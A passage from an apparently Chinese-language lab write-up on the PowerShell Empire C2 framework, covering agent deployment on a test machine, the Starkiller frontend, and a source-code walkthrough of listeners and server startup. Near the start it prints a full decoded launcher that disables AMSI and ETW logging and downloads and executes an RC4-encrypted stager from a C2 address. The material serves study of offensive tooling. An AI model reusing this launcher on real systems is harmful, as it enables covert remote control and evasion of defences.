000S\u0000e\u0000r\u0000v\u0000i\u0000c\u0000e\u0000P\u0000o\u0000i\u0000n\u0000t\u0000M\u0000a\u0000n\u0000a\u0000g\u0000e\u0000r\u0000]\u0000:\u0000:\u0000E\u0000x\u0000p\u0000e\u0000c\u0000t\u00001\u00000\u00000\u0000C\u0000o\u0000n\u0000t\u0000i\u0000n\u0000u\u0000e\u0000=\u00000\u0000;\u0000$\u0000w\u0000c\u0000=\u0000N\u0000e\u0000w\u0000-\u0000O\u0000b\u0000j\u0000e\u0000c\u0000t\u0000 \u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000W\u0000e\u0000b\u0000C\u0000l\u0000i\u0000e\u0000n\u0000t\u0000;\u0000$\u0000u\u0000=\u0000'\u0000M\u0000o\u0000z\u0000i\u0000l\u0000l\u0000a\u0000/\u00005\u0000.\u00000\u0000 \u0000(\u0000W\u0000i\u0000n\u0000d\u0000o\u0000w\u0000s\u0000 \u0000N\u0000T\u0000 \u00006\u0000.\u00001\u0000;\u0000 \u0000W\u0000O\u0000W\u00006\u00004\u0000;\u0000 \u0000T\u0000r\u0000i\u0000d\u0000e\u0000n\u0000t\u0000/\u00007\u0000.\u00000\u0000;\u0000 \u0000r\u0000v\u0000:\u00001\u00001\u0000.\u00000\u0000)\u0000 \u0000l\u0000i\u0000k\u0000e\u0000 \u0000G\u0000e\u0000c\u0000k\u0000o\u0000'\u0000;\u0000$\u0000s\u0000e\u0000r\u0000=\u0000$\u0000(\u0000[\u0000T\u0000e\u0000x\u0000t\u0000.\u0000E\u0000n\u0000c\u0000o\u0000d\u0000i\u0000n\u0000g\u0000]\u0000:\u0000:\u0000U\u0000n\u0000i\u0000c\u0000o\u0000d\u0000e\u0000.\u0000G\u0000e\u0000t\u0000S\u0000t\u0000r\u0000i\u0000n\u0000g\u0000(\u0000[\u0000C\u0000o\u0000n\u0000v\u0000e\u0000r\u0000t\u0000]\u0000:\u0000:\u0000F\u0000r\u0000o\u0000m\u0000B\u0000a\u0000s\u0000e\u00006\u00004\u0000S\u0000t\u0000r\u0000i\u0000n\u0000g\u0000(\u0000'\u0000a\u0000A\u0000B\u00000\u0000A\u0000H\u0000Q\u0000A\u0000c\u0000A\u0000A\u00006\u0000A\u0000C\u00008\u0000A\u0000L\u0000w\u0000A\u0000x\u0000A\u0000D\u0000A\u0000A\u0000M\u0000A\u0000A\u0000u\u0000A\u0000D\u0000E\u0000A\u0000L\u0000g\u0000A\u0000x\u0000A\u0000C\u00004\u0000A\u0000M\u0000Q\u0000A\u0000z\u0000A\u0000D\u0000Y\u0000A\u0000O\u0000g\u0000A\u00005\u0000A\u0000D\u0000A\u0000A\u0000O\u0000Q\u0000A\u0000w\u0000A\u0000A\u0000=\u0000=\u0000'\u0000)\u0000)\u0000)\u0000;\u0000$\u0000t\u0000=\u0000'\u0000/\u0000l\u0000o\u0000g\u0000i\u0000n\u0000/\u0000p\u0000r\u0000o\u0000c\u0000e\u0000s\u0000s\u0000.\u0000p\u0000h\u0000p\u0000'\u0000;\u0000$\u0000w\u0000c\u0000.\u0000H\u0000e\u0000a\u0000d\u0000e\u0000r\u0000s\u0000.\u0000A\u0000d\u0000d\u0000(\u0000'\u0000U\u0000s\u0000e\u0000r\u0000-\u0000A\u0000g\u0000e\u0000n\u0000t\u0000'\u0000,\u0000$\u0000u\u0000)\u0000;\u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000=\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000W\u0000e\u0000b\u0000R\u0000e\u0000q\u0000u\u0000e\u0000s\u0000t\u0000]\u0000:\u0000:\u0000D\u0000e\u0000f\u0000a\u0000u\u0000l\u0000t\u0000W\u0000e\u0000b\u0000P\u0000r\u0000o\u0000x\u0000y\u0000;\u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000.\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000s\u0000 \u0000=\u0000 \u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000N\u0000e\u0000t\u0000.\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000C\u0000a\u0000c\u0000h\u0000e\u0000]\u0000:\u0000:\u0000D\u0000e\u0000f\u0000a\u0000u\u0000l\u0000t\u0000N\u0000e\u0000t\u0000w\u0000o\u0000r\u0000k\u0000C\u0000r\u0000e\u0000d\u0000e\u0000n\u0000t\u0000i\u0000a\u0000l\u0000s\u0000;\u0000$\u0000S\u0000c\u0000r\u0000i\u0000p\u0000t\u0000:\u0000P\u0000r\u0000o\u0000x\u0000y\u0000 \u0000=\u0000 \u0000$\u0000w\u0000c\u0000.\u0000P\u0000r\u0000o\u0000x\u0000y\u0000;\u0000$\u0000K\u0000=\u0000[\u0000S\u0000y\u0000s\u0000t\u0000e\u0000m\u0000.\u0000T\u0000e\u0000x\u0000t\u0000.\u0000E\u0000n\u0000c\u0000o\u0000d\u0000i\u0000n\u0000g\u0000]\u0000:\u0000:\u0000A\u0000S\u0000C\u0000I\u0000I\u0000.\u0000G\u0000e\u0000t\u0000B\u0000y\u0000t\u0000e\u0000s\u0000(\u0000'\u0000H\u0000u\u0000v\u0000,\u00003\u0000g\u0000t\u0000s\u0000c\u0000}\u0000#\u0000_\u0000E\u0000:\u0000f\u0000F\u0000X\u0000w\u0000n\u00002\u0000b\u0000U\u0000P\u0000V\u0000|\u0000i\u0000M\u0000e\u00000\u0000+\u00005\u0000R\u0000'\u0000)\u0000;\u0000$\u0000R\u0000=\u0000{\u0000$\u0000D\u0000,\u0000$\u0000K\u0000=\u0000$\u0000A\u0000r\u0000g\u0000s\u0000;\u0000$\u0000S\u0000=\u00000\u0000.\u0000.\u00002\u00005\u00005\u0000;\u00000\u0000.\u0000.\u00002\u00005\u00005\u0000|\u0000%\u0000{\u0000$\u0000J\u0000=\u0000(\u0000$\u0000J\u0000+\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000+\u0000$\u0000K\u0000[\u0000$\u0000_\u0000%\u0000$\u0000K\u0000.\u0000C\u0000o\u0000u\u0000n\u0000t\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000J\u0000]\u0000=\u0000$\u0000S\u0000[\u0000$\u0000J\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000_\u0000]\u0000}\u0000;\u0000$\u0000D\u0000|\u0000%\u0000{\u0000$\u0000I\u0000=\u0000(\u0000$\u0000I\u0000+\u00001\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000H\u0000=\u0000(\u0000$\u0000H\u0000+\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000;\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000=\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000;\u0000$\u0000_\u0000-\u0000b\u0000x\u0000o\u0000r\u0000$\u0000S\u0000[\u0000(\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000+\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000]\u0000}\u0000}\u0000;\u0000$\u0000w\u0000c\u0000.\u0000H\u0000e\u0000a\u0000d\u0000e\u0000r\u0000s\u0000.\u0000A\u0000d\u0000d\u0000(\u0000\"\u0000C\u0000o\u0000o\u0000k\u0000i\u0000e\u0000\"\u0000,\u0000\"\u0000c\u0000H\u0000G\u0000A\u0000f\u0000d\u0000L\u0000Z\u0000D\u0000C\u0000E\u0000t\u0000L\u0000M\u0000K\u0000=\u0000l\u0000L\u0000q\u00008\u0000U\u0000w\u0000i\u0000E\u0000u\u0000z\u0000v\u0000I\u0000Q\u0000D\u00004\u0000j\u00007\u0000p\u00006\u0000I\u0000J\u0000s\u0000h\u0000i\u0000i\u00001\u0000E\u0000=\u0000\"\u0000)\u0000;\u0000$\u0000d\u0000a\u0000t\u0000a\u0000=\u0000$\u0000w\u0000c\u0000.\u0000D\u0000o\u0000w\u0000n\u0000l\u0000o\u0000a\u0000d\u0000D\u0000a\u0000t\u0000a\u0000(\u0000$\u0000s\u0000e\u0000r\u0000+\u0000$\u0000t\u0000)\u0000;\u0000$\u0000i\u0000v\u0000=\u0000$\u0000d\u0000a\u0000t\u0000a\u0000[\u00000\u0000.\u0000.\u00003\u0000]\u0000;\u0000$\u0000d\u0000a\u0000t\u0000a\u0000=\u0000$\u0000d\u0000a\u0000t\u0000a\u0000[\u00004\u0000.\u0000.\u0000$\u0000d\u0000a\u0000t\u0000a\u0000.\u0000l\u0000e\u0000n\u0000g\u0000t\u0000h\u0000]\u0000;\u0000-\u0000j\u0000o\u0000i\u0000n\u0000[\u0000C\u0000h\u0000a\u0000r\u0000[\u0000]\u0000]\u0000(\u0000&\u0000 \u0000$\u0000R\u0000 \u0000$\u0000d\u0000a\u0000t\u0000a\u0000 \u0000(\u0000$\u0000I\u0000V\u0000+\u0000$\u0000K\u0000)\u0000)\u0000|\u0000I\u0000E\u0000X\u0000"
> ```
>
> 里面的 `\u0000` 无用, 去除 `\u0000` 并规范化后得到:
>
> ```powershell
> If ($PSVersionTable.PSVersion.Major -ge 3) {
>     $Ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');
>     $Ref.GetField('amsiInitFailed', 'NonPublic,Static').Setvalue($Null, $true);
>     [System.Diagnostics.Eventing.EventProvider].GetField('m_enabled', 'NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider', 'NonPublic,Static').GetValue($null), 0);
> };
> [System.Net.ServicePointManager]::Expect100Continue = 0;
> $wc = New-Object System.Net.WebClient;
> $u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
> $ser = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAxADAAMAAuADEALgAxAC4AMQAzADYAOgA5ADAAOQAwAA==')));
> $t = '/login/process.php'; $wc.Headers.Add('User-Agent', $u);
> $wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy;
> $wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
> $Script:Proxy = $wc.Proxy;
> $K = [System.Text.Encoding]::ASCII.GetBytes('Huv,3gtsc}#_E:fFXwn2bUPV|iMe0+5R');
> $R = {
>     $D, $K = $Args; $S = 0..255; 0..255 | % {
>         $J = ($J + $S[$_] + $K[$_ % $K.Count]) % 256; $S[$_], $S[$J] = $S[$J], $S[$_]
>     };
>     $D | % { $I = ($I + 1) % 256; $H = ($H + $S[$I]) % 256; $S[$I], $S[$H] = $S[$H], $S[$I]; $_-bxor$S[($S[$I] + $S[$H]) % 256] }
> };
> $wc.Headers.Add("Cookie", "cHGAfdLZDCEtLMK=lLq8UwiEuzvIQD4j7p6IJshii1E=");
> $data = $wc.DownloadData($ser + $t);
> $iv = $data[0..3];
> $data = $data[4..$data.length];
> -join [Char[]](& $R $data ($IV + $K)) | IEX
> ```

---

#### 执行命令以上线主机

执行完后可以获得一行命令, 将其拷贝下来, 然后在靶机侧执行该命令

> 
>
> 也可以使用 CMD, 这里被防火墙拦了, 作为测试使用, 本次先关闭防火墙以及实时防护
>
> 
>
> 
>
> 
>
> 关掉之后就可以成功执行了

成功执行后 empire cleint 会收到一条上线消息:


使用 agents 查看当前上线的主机并可以使用 interact 命令与其交互

```bash
agents
interact [主机名]
```


可以使用 `info` 命令看下该主机的基本信息


也可以弹个计算器:

```bash
shell calc.exe
```

> 需要稍微等待一会儿等待命令执行, 执行完会显示 received
>
> 
>
> 在靶机侧可以看到计算器已经弹出来了
>
> 

可以使用 kill 命令关闭与此 agent 的连接

```bash
# 需要先回到 agents
agents
kill [主机名]
# 确认一下
agents
```

> 

---

## Starkiller

> [BC-SECURITY/Starkiller: Starkiller is a Frontend for PowerShell Empire. --- BC-SECURITY/Starkiller：Starkiller 是 PowerShell Empire 的前端。 (github.com)](https://github.com/BC-SECURITY/Starkiller)

从 Empire 5.0 以及 Starkiller 2.0 开始, 无需手动拉取 Starkiller 仓库来构建, Starkiller 已经作为子模块打包在了 Empire 中并通过 Empire 的 API 提供服务

通过 Github 源码安装了 Empire 5.0+ 之后可以在 `empire/server/api/v2/starkiller` 看到 Starkiller 的源码:


---

默认挂在了 1337 端口


可以通过 `restport` 参数来指定


访问 `1337/index.html` 即可看到登录页:


默认账密在 `config.yaml` 中有定义:


不在 empire 本机打开网页的话需要把 URL 中的 localhost 改成 empire 机子的 ip


成功登入后会显示 listeners 界面:


> 可以通过点击头像并点击 `>|` 来固定左侧边栏:
>
> 

---

可以在 Users 界面设置用户的管理员权限以及是否启用


---

在 `Settings` 页面可以修改当前用户的密码, 以及`登出` :


---

==需要注意的是==, 在修改了密码或是禁用了 `empireadmin` 账户后需要相应修改配置文件中的默认账密, 否则可能会导致 server 或者 client 默认使用默认配置而起不来


---

## 整体源码概述

> [Empire 源码分析（一） - 跳跳糖 (tttang.com)](https://tttang.com/archive/1281/) -- 19 年的博客, 应该是旧版的源码目录分析, 这里作为参考, 可能是检索方法的原因, 也可能是真没有相关资源, 总之并没有检索出什么 Powershell Empire 源码分析的文章

```bash
# 可以在项目根目录下使用 tree 命令以及 -L 参数来指定层级生成项目结构树
tree -L 3 > tree.md
```

然后手动精简一下:

```
.
├── changelog
├── CHANGELOG.md
├── conftest.py
├── Dockerfile
├── docs
│   ├── ...各类帮助文档
├── empire
│   ├── arguments.py
│   ├── client
│   │   ├── client.py
│   │   ├── config.yaml
│   │   ├── downloads
│   │   ├── generated-stagers
│   │   ├── __init__.py
│   │   └── src
│   ├── __init__.py
│   ├── scripts
│   │   └── sync_starkiller.py
│   ├── server
│   │   ├── api
│   │   ├── bypasses
│   │   ├── common
│   │   ├── config.yaml
│   │   ├── core
│   │   ├── csharp
│   │   ├── data
│   │   │   ├── agent
│   │   │   ├── __init__.py
│   │   │   ├── Invoke-Obfuscation    用于混淆 Powershell命令
│   │   │   ├── listeners
│   │   │   ├── misc
│   │   │   ├── module_source
│   │   │   ├── obfuscated_module_source
│   │   │   └── profiles
│   │   ├── downloads
│   │   ├── __init__.py
│   │   ├── listeners    各类listener
│   │   ├── modules      各类后渗透阶段的payload
│   │   ├── plugins		 插件示例
│   │   ├── server.py
│   │   ├── stagers      各类平台下的stager脚本
│   │   └── utils
│   └── test
│       ├── ... 各类测试
├── empire.py    主程序入口
├── LICENSE
├── poetry.lock
├── ps-empire
├── pyproject.toml
├── pytest.ini
├── README.md
├── setup
│   ├── cert.sh
│   ├── checkout-latest-tag.sh
│   └── install.sh
└── tree.md - 刚才生成的项目树结构的文件

36 directories, 87 files
```

> 暂时还没看到的目录便还没标注含义

---

### 调试

可以使用 VSCode 配置 `launch.json` 来调试 Empire

```json
{
  "version": "0.2.0",
  "configurations": [
    {
      "name": "Powershell Empire Server",
      "type": "python",
      "request": "launch",
      "program": "${workspaceFolder}/empire.py", // Empire 入口程序
      "python": "${workspaceFolder}/.venv/bin/python", // Poetry 虚拟环境中的 Python 解释器路径
      "args": ["server"],
      "cwd": "${workspaceFolder}",
      "console": "integratedTerminal"
    }
  ]
}
```

然后可以在主程序上打断点来做调试


---

### 主程序入口

`empire.py`:

```python
#! /usr/bin/env python3

import sys

import empire.arguments as arguments

if __name__ == "__main__":
    args = arguments.args

    if args.subparser_name == "server":
        import empire.server.server as server

        server.run(args)
    elif args.subparser_name == "sync-starkiller":
        import yaml

        from empire.scripts.sync_starkiller import sync_starkiller

        with open("empire/server/config.yaml") as f:
            config = yaml.safe_load(f)

        sync_starkiller(config)
    elif args.subparser_name == "client":
        import empire.client.client as client

        client.start(args)

    sys.exit(0)

```

起 Powershell empire

这里看下 server: `empire/server/server.py` 的 `run` 函数

```python
def run(args):
    setup_logging(args)
    check_submodules()
    check_recommended_configuration()

    if not args.restport:
        args.restport = 1337
    else:
        args.restport = int(args.restport[0])

    if not args.restip:
        args.restip = "0.0.0.0"
    else:
        args.restip = args.restip[0]

    if args.version:
        # log to stdout instead of stderr
        print(empire.VERSION)
        sys.exit()

    elif args.reset:
        choice = input(
            "\x1b[1;33m[>] Would you like to reset your Empire Server instance? [y/N]: \x1b[0m"
        )
        if choice.lower() == "y":
            reset()

        sys.exit()

    else:
        base.startup_db()
        global main

        # Calling run more than once, such as in the test suite
        # Will generate more instances of MainMenu, which then
        # causes shutdown failure.
        if main is None:
            main = empire.MainMenu(args=args)

        if not os.path.exists("./empire/server/data/empire-chain.pem"):
            log.info("Certificate not found. Generating...")
            subprocess.call("./setup/cert.sh")
            time.sleep(3)

        from empire.server.api import app

        app.initialize(secure=args.secure_api, ip=args.restip, port=args.restport)

    sys.exit()

```


旧版 Empire 默认使用 Sqlite 数据库, 这里则推荐使用 Mysql

检查完配置项并传入命令行参数后会启动数据库 `base.startup_db()`


此函数主要用于检查数据库的初始状态是否正确, 不正确则输出报错提示(一般会在大版本更新的时候出现这种情况)

- 创建了一个数据库会话 Session 用于与数据库交互;
- 如果当前用了 mysql 的话则检查 `unique_check` 列, 不存在则创建, 用来作为键值
- 创建索引 `agent_checkin_idx` 来加速对 `AgentCheckIn` 表的 `agent_id` 以及 `checkin_time` 列的查询
- 检查并生成用户记录、数据库配置记录、关键词模糊记录以及混淆配置记录的默认配置
- 检查数据库表结构与 model 是否一致, 有问题则输出报错并退出程序

---

接着就是初始化 main menu, 加载插件与配置:


---

检查与生成证书, 然后进入 app 初始化函数


加载一堆后端路由:


---

配置 CORS, 创建一个支持异步的 WebSocket 服务器


---

加载 Starkiller, 证书并启动服务


---

### Listener

> [Empire 源码分析（一） - 跳跳糖 (tttang.com)](https://tttang.com/archive/1281/)

下面开始研究 Empire 中的 `listener`, `stager` 与 `agent`

- `listener`: 监听器, C2 服务器需要与被控端连接以向其发布命令, 这就需要开放一个端口来与被控端连接; Empire 中的 http listener 就是起了一个 flask web application, 利用 flask 内置的 WSGI 来作为 server
- `stager` 是一个小心地木马程序 用于在目标机器上执行并与 listener 建立连接; Empire 支持通过 `usestager` 命令生成不同文件格式的 stager 以适应不同目标系统和执行方式
- `agent` 则是指代被控端

---

那么这里以新建与设置 HTTP listener 的流程来 debug 一下项目

```bash
uselistener http
# Set Port
set Port 9091
# execute 以使用此 listener
execute
```

---

```bash
uselistener http
```


通过如下 Get 请求匹配 URL 末尾的 listener 类型字符串来获取 listener 模板:


这些 listener 是在上图中的类 `ListenerTemplateService` 初始化时从本地 py 文件加载的:


这里具体看看 `http.py` 中是如何写的:


一千多行的 listener 实现, 其中主要的函数有:


- `default_response`: IIS 7.5 404 not found page
- `validate_options`: 检查 listener 中必要的 options 是否都设置好了
- `generate_launcher`: 为指定 listener 生成基础的启动器
- `generate_stager`: 生成与该 listener 通信所需的 stager 代码
- `generate_agent`: 生成与该 listener 通信所需的完整的 agent 代码
- `generate_comms`: 仅生成与该 listener 通信所需的 agent 代码块, 从而可以为新的 listener 动态更新 agent
- `start_server`: 根据配置生成与启动相应 Flask APP 线程
- `start`: Listener Start, 启动 `start_server()` 的线程实例并将其存储在 `self.threads` 字典中
- `shutdown`: Listener Stop, 中断存储在 `self.threads` 字典中的 server 线程

具体函数实现在后面用到时再进行分析

---

其结构与 client 端看到的回显一致:


然后可以通过 `set Host  / set Name` 等命令设置各个属性, 然后使用 `options` 命令进行查看

---

```bash
execute
```


可以看到是发了条 Post 请求, 不过 Server 回显先出现了, 可能和信息打印的顺序有关系, 重新 execute 抓下包看看发了什么

```bash
tcpdump -nn -vv -i lo -w 202309111557_测一下httpListenerExecute命令做了什么.pcap
```


看样子就是把 Listener 的信息放在请求体中发过去了

查找相应的接口:


可以看到又回到 Listener 本身了, 通过 Listener json 信息实例化 Listener 然后调用其 start 函数启动 Listener


定义路由与中间件起一个 Flask app


---

后续交互就可以看下具体的路由了, 这里先简单捋一下


- `/download/<stager>/`: 下载 `stager`
- `/`, `/iisstart.htm`: 展示首页
- ==GET, POST== `/<path:request_uri>`: 用于真正进行 C2 与 agent 之间的通信

---

之于前面的外层的 Thread 函数则是为 Listener 的 Flask app 另外起个线程跑:


上图中圈起来的两个线程对应两个 Listener 在 `start_server` 函数中起的 Flask app


---
